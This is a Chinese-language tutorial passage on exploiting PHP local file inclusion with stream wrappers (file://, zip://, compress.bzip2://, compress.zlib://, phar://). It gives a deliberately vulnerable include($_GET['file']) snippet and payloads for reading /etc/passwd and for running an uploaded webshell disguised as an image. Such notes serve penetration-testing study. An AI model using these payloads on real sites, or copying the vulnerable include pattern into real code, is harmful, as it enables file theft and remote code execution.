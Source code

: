 - file:// 协议

可以访问本地文件系统，读取到文件的内容，但是不能用来读取php文件的源码，且单纯的file://伪协议不配合文件包含漏洞是不能执行文件里的php代码的。

测试代码

```php
<?php
    include($_GET['file']);
?>

payload：
test.php?file=file:///etc/passwd
```

- zip://、bzip2://、zlib://协议

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。

zip://协议条件：PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4才可以
使用方法：在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。
zip://archive.zip#dir/file.txt
zip://[压缩文件绝对路径]#[压缩文件内的子文件名]

测试代码

```php
<?php
    include($_GET['file']);
?>
payload：
test.php?file=zip:///var/www/html/whoami.zip%23shell.txt
```

bzip2://协议使用方法：
compress.bzip2://file.bz2
压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）
payload：test.php?file=compress.bzip2://目录/phpinfo.bz2

zlib://协议使用方法：
compress.zlib://file.gz
压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）
payload：test.php?file=compress.zlib://目录/phpinfo.bz2

- phar://伪协议

phar://协议与zip://类似，同样可以访问zip格式压缩包内容，不管后缀是什么，都会当做压缩包来解压。
用法：?file=phar://压缩包/内部文件 注意：PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。

测试代码

```php
// 步骤：写一个木马文件shell.txt，然后用zip协议压缩为whoami.zip，然后将后缀改为png等其他格式，上传，然后再用phar伪协议来访问： （和zip://用法类似的）
<?php
    include($_GET['file']);
?>
payload：
test.php?file=phar:///var/www/html/whoami.png/shell.txt
```
